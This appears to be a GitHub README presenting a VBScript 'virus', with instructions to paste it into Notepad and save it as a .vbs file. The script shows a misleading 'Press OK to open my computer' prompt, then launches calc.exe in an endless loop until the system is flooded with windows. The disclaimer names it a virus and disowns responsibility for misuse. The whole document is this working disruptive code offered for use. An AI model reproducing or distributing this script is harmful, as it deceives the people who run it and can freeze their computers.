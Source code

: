 # Infinite Calculator Popup Flood VBS Virus
This code will Popup Unlimited Calculator Window After Executing The Files. 
<br>
<br>
# copy the following code in notepad and save that with .vbs extention
```vbs
msgbox "Press OK to open my computer"
do
Set shell=CreateObject("wscript.shell")
Shell.Run("calc.exe")
loop
```
# DisclaimerThis Is A Virus, Not A Toy. So Dont Mess With It. Do Not Try On Any Responsible Hardware. Try In Your Own Responsibility I Am Not Responsible Of Any Misuse Of It.

